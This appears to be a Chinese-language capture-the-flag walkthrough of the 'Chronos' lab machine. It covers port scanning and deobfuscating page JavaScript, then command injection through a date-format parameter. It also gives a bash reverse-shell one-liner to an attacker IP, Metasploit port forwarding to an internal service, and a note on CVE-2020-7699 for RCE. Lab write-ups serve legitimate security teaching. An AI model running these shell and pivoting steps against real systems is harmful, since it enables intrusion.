










信息收集

```
┌──(root㉿kali)-[/home/soyamilk]
└─# nmap -sS -T4 -p- -vv 10.0.2.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 16:41 CST
Initiating ARP Ping Scan at 16:41
Scanning 10.0.2.4 [1 port]
Completed ARP Ping Scan at 16:41, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:41
Completed Parallel DNS resolution of 1 host. at 16:41, 0.01s elapsed
Initiating SYN Stealth Scan at 16:41
Scanning 10.0.2.4 [65535 ports]
Discovered open port 22/tcp on 10.0.2.4
Discovered open port 80/tcp on 10.0.2.4
Discovered open port 8000/tcp on 10.0.2.4
Completed SYN Stealth Scan at 16:42, 33.44s elapsed (65535 total ports)
Nmap scan report for 10.0.2.4
Host is up, received arp-response (0.00040s latency).
Scanned at 2024-03-23 16:41:54 CST for 34s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
8000/tcp open  http-alt syn-ack ttl 64
MAC Address: 08:00:27:EB:47:08 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 33.62 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65544 (2.622MB)
                                                                                                                                                                           
┌──(root㉿kali)-[/home/soyamilk]
└─# nmap -sS -T4 -A -p22,80,8000 10.0.2.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 16:43 CST
Nmap scan report for 10.0.2.4
Host is up (0.00049s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:f2:83:a4:38:89:8d:86:a5:e1:31:76:eb:9d:5f:ea (RSA)
|   256 41:5a:21:c4:58:f2:2b:e4:8a:2f:31:73:ce:fd:37:ad (ECDSA)
|_  256 9b:34:28:c2:b9:33:4b:37:d5:01:30:6f:87:c4:6b:23 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8000/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:EB:47:08 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 10.0.2.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.29 seconds

```

查看80端口，发现源代码中有混淆js代码

```JavaScript
var _0x5bdf=['150447srWefj','70lwLrol','1658165LmcNig','open','1260881JUqdKM','10737CrnEEe','2SjTdWC','readyState','responseText','1278676qXleJg','797116soVTES','onreadystatechange','http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL','User-Agent','status','1DYOODT','400909Mbbcfr','Chronos','2QRBPWS','getElementById','innerHTML','date'];(function(_0x506b95,_0x817e36){var _0x244260=_0x432d;while(!![]){try{var _0x35824b=-parseInt(_0x244260(0x7e))*parseInt(_0x244260(0x90))+parseInt(_0x244260(0x8e))+parseInt(_0x244260(0x7f))*parseInt(_0x244260(0x83))+-parseInt(_0x244260(0x87))+-parseInt(_0x244260(0x82))*parseInt(_0x244260(0x8d))+-parseInt(_0x244260(0x88))+parseInt(_0x244260(0x80))*parseInt(_0x244260(0x84));if(_0x35824b===_0x817e36)break;else _0x506b95['push'](_0x506b95['shift']());}catch(_0x3fb1dc){_0x506b95['push'](_0x506b95['shift']());}}}(_0x5bdf,0xcaf1e));function _0x432d(_0x16bd66,_0x33ffa9){return _0x432d=function(_0x5bdf82,_0x432dc8){_0x5bdf82=_0x5bdf82-0x7e;var _0x4da6e8=_0x5bdf[_0x5bdf82];return _0x4da6e8;},_0x432d(_0x16bd66,_0x33ffa9);}function loadDoc(){var _0x17df92=_0x432d,_0x1cff55=_0x17df92(0x8f),_0x2beb35=new XMLHttpRequest();_0x2beb35[_0x17df92(0x89)]=function(){var _0x146f5d=_0x17df92;this[_0x146f5d(0x85)]==0x4&&this[_0x146f5d(0x8c)]==0xc8&&(document[_0x146f5d(0x91)](_0x146f5d(0x93))[_0x146f5d(0x92)]=this[_0x146f5d(0x86)]);},_0x2beb35[_0x17df92(0x81)]('GET',_0x17df92(0x8a),!![]),_0x2beb35['setRequestHeader'](_0x17df92(0x8b),_0x1cff55),_0x2beb35['send']();}
  
```

```JavaScript
var _0x5bdf = [
	'150447srWefj',
	'70lwLrol',
	'1658165LmcNig',
	'open',
	'1260881JUqdKM',
	'10737CrnEEe',
	'2SjTdWC',
	'readyState',
	'responseText',
	'1278676qXleJg',
	'797116soVTES',
	'onreadystatechange',
	'http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL',
	'User-Agent',
	'status',
	'1DYOODT',
	'400909Mbbcfr',
	'Chronos',
	'2QRBPWS',
	'getElementById',
	'innerHTML',
	'date'
];
(function (_0x506b95, _0x817e36) {
	var _0x244260 = _0x432d;
	while (!![]) {
		try {
			var _0x35824b = -parseInt(_0x244260(126)) * parseInt(_0x244260(144)) + parseInt(_0x244260(142)) + parseInt(_0x244260(127)) * parseInt(_0x244260(131)) + -parseInt(_0x244260(135)) + -parseInt(_0x244260(130)) * parseInt(_0x244260(141)) + -parseInt(_0x244260(136)) + parseInt(_0x244260(128)) * parseInt(_0x244260(132));
			if (_0x35824b === _0x817e36)
				break;
			else
				_0x506b95['push'](_0x506b95['shift']());
		} catch (_0x3fb1dc) {
			_0x506b95['push'](_0x506b95['shift']());
		}
	}
}(_0x5bdf, 831262));
function _0x432d(_0x16bd66, _0x33ffa9) {
	return _0x432d = function (_0x5bdf82, _0x432dc8) {
		_0x5bdf82 = _0x5bdf82 - 126;
		var _0x4da6e8 = _0x5bdf[_0x5bdf82];
		return _0x4da6e8;
	}, _0x432d(_0x16bd66, _0x33ffa9);
}
function loadDoc() {
	var _0x17df92 = _0x432d, _0x1cff55 = _0x17df92(143), _0x2beb35 = new XMLHttpRequest();
	_0x2beb35[_0x17df92(137)] = function () {
		var _0x146f5d = _0x17df92;
		this[_0x146f5d(133)] == 4 && this[_0x146f5d(140)] == 200 && (document[_0x146f5d(145)](_0x146f5d(147))[_0x146f5d(146)] = this[_0x146f5d(134)]);
	}, _0x2beb35[_0x17df92(129)]('GET', _0x17df92(138), !![]), _0x2beb35['setRequestHeader'](_0x17df92(139), _0x1cff55), _0x2beb35['send']();
}
```

简单解密之后如下，主要部分就是后面发xml包的部分，url为`http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，并且需要注意的是ua头必须是`Chronos`才能返回内容

```javascript
var _0x5bdf = [
	'150447srWefj',
	'70lwLrol',
	'1658165LmcNig',
	'open',
	'1260881JUqdKM',
	'10737CrnEEe',
	'2SjTdWC',
	'readyState',
	'responseText',
	'1278676qXleJg',
	'797116soVTES',
	'onreadystatechange',
	'http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL',
	'User-Agent',
	'status',
	'1DYOODT',
	'400909Mbbcfr',
	'Chronos',
	'2QRBPWS',
	'getElementById',
	'innerHTML',
	'date'
];

(function (_0x506b95, _0x817e36) {
	var _0x244260 = _0x432d;
	while (!![]) {
		try {
			var _0x35824b = -parseInt(_0x244260(126)) * parseInt(_0x244260(144)) + parseInt(_0x244260(142)) + parseInt(_0x244260(127)) * parseInt(_0x244260(131)) + -parseInt(_0x244260(135)) + -parseInt(_0x244260(130)) * parseInt(_0x244260(141)) + -parseInt(_0x244260(136)) + parseInt(_0x244260(128)) * parseInt(_0x244260(132));
			if (_0x35824b === _0x817e36){
				break;
			}else
				_0x506b95['push'](_0x506b95['shift']());
		} catch (_0x3fb1dc) {
			_0x506b95['push'](_0x506b95['shift']());
		}
	}
}(_0x5bdf, 831262));
function _0x432d(_0x16bd66, _0x33ffa9) {
    return _0x5bdf[_0x16bd66 - 126];
}
function loadDoc() {
	var _0x17df92 = _0x432d, _0x1cff55 = 'Chronos', _0x2beb35 = new XMLHttpRequest();
	_0x2beb35['onreadystatechange'] = function () {
		var _0x146f5d = _0x17df92;
		this['readyState'] == 4 && this['status'] == 200 && (document['getElementById']('date')['innerHTML'] = this['responseText']);
	}, _0x2beb35['open']('GET', 'http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL', true), _0x2beb35['setRequestHeader']('User-Agent', _0x1cff55), _0x2beb35['send']();
}
console.log(_0x5bdf['push']);
```

对format参数解码，base58编码，百度搜一下命令，发现和date命令有关，尝试能否进行命令拼接







反弹shell

```
bash -c "/bin/bash -i >& /dev/tcp/10.0.2.15/6543 0>&1"
```







suid没有可以利用的，内核也没有找到能用的，sudo也无，但是在查看进程和网络情况的时候，发现内网有一个8080端口开启，所以用msf搭建一个socks代理





scoks代理无法访问回环地址，使用portfwd进行端口转发

```
portfwd add -L 127.0.0.1 -l 10807 -r 127.0.0.1 -p 8080
```



可以看到，这是开在内网的一个web服务，找到其源码在`/opt/chronos-v2/backend`



在服务器上利用python2开一个服务器，然后下载其内网的源码

```
python -m SimpleHTTPServer 8008
```

查看其导入的包，搜一下是否有历史漏洞

```
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}

```

>CVE-2020-7699：NodeJS模块代码注入
>
>该漏洞完全是由于Nodejs的express-fileupload模块引起，该模块的1.1.8之前的版本存在原型链污染（Prototype Pollution）漏洞，当然，引发该漏洞，需要一定的配置：parseNested选项设置为true
>
>该漏洞可以引发DOS拒绝服务攻击，配合ejs模板引擎，可以达到RCE的目的
